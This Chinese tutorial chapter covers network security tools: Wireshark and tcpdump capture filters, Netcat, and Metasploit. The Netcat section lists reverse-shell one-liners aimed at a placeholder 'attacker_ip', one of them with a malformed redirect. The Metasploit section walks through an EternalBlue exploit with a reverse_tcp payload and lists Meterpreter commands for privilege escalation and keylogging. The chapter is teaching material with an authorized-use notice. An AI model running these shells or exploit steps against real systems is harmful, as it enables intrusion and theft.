


+++
title = "第74章：网络安全工具"
weight = 740
date = "2026-03-24T13:18:28+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++


# 第七十四章：网络安全工具

## 74.1 Wireshark 抓包分析

### 什么是 Wireshark？

Wireshark 是最流行的网络协议分析器，让你能够"看见"网络上的数据传输。


### 安装 Wireshark

```bash
# Ubuntu/Debian
sudo apt install wireshark

# CentOS/RHEL
sudo yum install wireshark

# 启动
wireshark

# 非 root 用户运行
sudo usermod -aG wireshark $USER
# 重新登录
```

### 过滤器语法

```bash
# Wireshark 使用 Berkeley Packet Filter (BPF) 语法

# 过滤器类型
# 捕获过滤器：在抓包前过滤
# 显示过滤器：在抓包后过滤
```

| 过滤器 | 说明 |
|--------|------|
| `tcp` | 只显示 TCP 包 |
| `udp` | 只显示 UDP 包 |
| `ip.addr == 192.168.1.1` | 显示指定 IP |
| `tcp.port == 80` | 显示 80 端口 |
| `http.request.method == "GET"` | HTTP GET 请求 |

### 常用显示过滤器

```bash
# HTTP 相关
http.request.method == "GET"
http.request.method == "POST"
http.response.code == 200
http.host == "example.com"

# TCP 相关
tcp.flags.syn == 1              # SYN 包
tcp.flags.ack == 1              # ACK 包
tcp.stream eq 5                  # 第 5 个 TCP 流

# DNS 相关
dns.qry.name == "example.com"
dns.flags.response == 0         # DNS 查询

# 显示 HTTP 和 HTTPS（TLS）
http or tls
```

### 协议分析

```bash
# 常见协议分析点

# HTTP
# - 请求方法：GET, POST, PUT, DELETE
# - 请求头：User-Agent, Cookie, Host
# - 请求体：POST 数据

# DNS
# - 查询类型：A, AAAA, MX, CNAME
# - 响应码：NOERROR, NXDOMAIN

# TLS/SSL
# - 加密握手过程
# - 证书信息
# - 加密算法

# SMB
# - 文件共享协议
# - Windows 常用

# FTP
# - 21 端口控制
# - 随机端口数据传输
```

### 流追踪

```bash
# 在 Wireshark 中
# 1. 右键点击数据包
# 2. 选择 "Follow" → "TCP Stream"
# 3. 查看完整会话

# 或使用 tshark（命令行版）
tshark -r capture.pcap -Y "http" -T fields -e http.request.uri
```

## 74.2 Tcpdump 命令行抓包

### 基本用法

```bash
# 安装
# 通常预装

# 基本抓包
sudo tcpdump -i eth0

# 指定网卡
sudo tcpdump -i any

# 保存到文件
sudo tcpdump -i eth0 -w capture.pcap

# 读取文件
tcpdump -r capture.pcap

# 显示内容
sudo tcpdump -i eth0 -n
```

### BPF 过滤器

```bash
# 主机过滤
tcpdump host 192.168.1.1
tcpdump src 192.168.1.1
tcpdump dst 192.168.1.1

# 端口过滤
tcpdump port 80
tcpdump src port 443

# 协议过滤
tcpdump tcp
tcpdump udp
tcpdump icmp

# 组合过滤
tcpdump tcp and port 80
tcpdump "tcp[13] & 2 != 0"     # SYN 包
tcpdump "tcp[13] & 16 != 0"     # ACK 包
```

### 高级选项

```bash
# 显示更多细节
sudo tcpdump -i eth0 -vv

# 不解析域名（快）
sudo tcpdump -i eth0 -n

# 显示十六进制内容
sudo tcpdump -i eth0 -X

# 显示 ASCII 内容
sudo tcpdump -i eth0 -A

# 限制抓包数量
sudo tcpdump -i eth0 -c 100

# 抓包后立即停止
sudo tcpdump -i eth0 -G 5          # 5 秒后停止
```

### 常用抓包场景

```bash
# 1. 抓 HTTP 请求
sudo tcpdump -i eth0 -A 'tcp port 80'

# 2. 抓 DNS 查询
sudo tcpdump -i eth0 -n 'udp port 53'

# 3. 抓 SSH 连接
sudo tcpdump -i eth0 'tcp port 22'

# 4. 抓指定 IP
sudo tcpdump -i eth0 host 192.168.1.1

# 5. 抓 HTTP POST 数据
sudo tcpdump -i eth0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354'
```

## 74.3 Netcat 网络瑞士军刀

Netcat 被称为"网络瑞士军刀"，能做几乎任何网络操作。

### 基本用法

```bash
# 安装
sudo apt install netcat

# 常用命令
# nc [选项] [主机] [端口]
```

### 端口扫描

```bash
# 扫描单个端口
nc -zv 192.168.1.1 80

# 扫描多个端口
nc -zv 192.168.1.1 22 80 443

# 端口范围
nc -zv 192.168.1.1 1-1000

# UDP 扫描
nc -zuv 192.168.1.1 53
```

### 文件传输

```bash
# 接收端（服务器）
nc -l -p 4444 > received_file.txt

# 发送端（客户端）
nc 192.168.1.100 4444 < file_to_send.txt

# 目录传输（需要先压缩）
tar czf - directory/ | nc -l -p 4444
nc 192.168.1.100 4444 | tar xzf -
```

### 反向 Shell

```bash
# 攻击者监听
nc -l -p 4444

# 目标执行（Linux）
nc -e /bin/bash attacker_ip 4444

# 目标执行（Windows）
nc -e cmd.exe attacker_ip 4444

# 更好的方式（目标）
bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# 加密反向 shell
openssl s_client -connect attacker_ip:4443
/bin/bash 2>& | openssl s_client -connect attacker_ip:4443 -quiet > /dev/null &
```

### 远程管理

```bash
# 创建监听服务
nc -l -p 8080

# 测试端口连通性
nc -zv 192.168.1.1 80 -w 3

# 代理功能
nc -l -p 8888 -c "nc target.com 80"

# 获取 banner
echo "QUIT" | nc target.com 21
```

## 74.4 Metasploit 渗透框架

### 简介

Metasploit 是最流行的渗透测试框架，包含大量漏洞利用模块。



### 基本使用

```bash
# 安装
# Kali Linux 预装

# 启动 msfconsole
msfconsole

# 常用命令
# search <关键词>   搜索模块
# use <模块>        选择模块
# show options      显示选项
# set <选项> <值>  设置参数
# exploit           执行
# run               执行（Auxiliary 模块）
```

### 模块类型

| 模块 | 说明 |
|------|------|
| Exploit | 漏洞利用模块 |
| Auxiliary | 辅助模块（扫描、钓鱼等） |
| Payload | 攻击载荷（获取 shell） |
| Encoder | 编码器（免杀） |
| NOP | 空指令滑块 |
| Post | 后渗透模块 |

### 漏洞利用示例

```bash
# 1. 搜索模块
search type:exploit name:smb

# 2. 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 3. 查看选项
show options

# 4. 设置参数
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444

# 5. 执行
exploit
```

### Meterpreter

Meterpreter 是 Metasploit 的高级载荷，提供丰富的后渗透功能。

```bash
# Meterpreter 常用命令
sysinfo              # 系统信息
getuid              # 当前用户
getsystem           # 提权
shell               # 获取 shell
upload              # 上传文件
download            # 下载文件
screenshot          # 截图
keyscan_start       # 键盘记录
keyscan_stop        # 停止记录
ps                  # 进程列表
migrate             # 迁移进程
```

## 本章小结

本章我们学习了常用的网络安全工具：

| 工具 | 用途 |
|------|------|
| Wireshark | 协议分析、流量抓取 |
| Tcpdump | 命令行抓包 |
| Netcat | 网络瑞士军刀 |
| Metasploit | 渗透测试框架 |

网络安全工具链：



---

> 💡 **温馨提示**：
> 本章工具是网络工程师和安全测试人员的必备技能。请仅在授权环境下使用，如学习实验、渗透测试授权等。

---

**第七十四章：网络安全工具 — 完结！** 🎉

下一章我们将学习"CPU 优化"，掌握性能分析方法。敬请期待！ 🚀
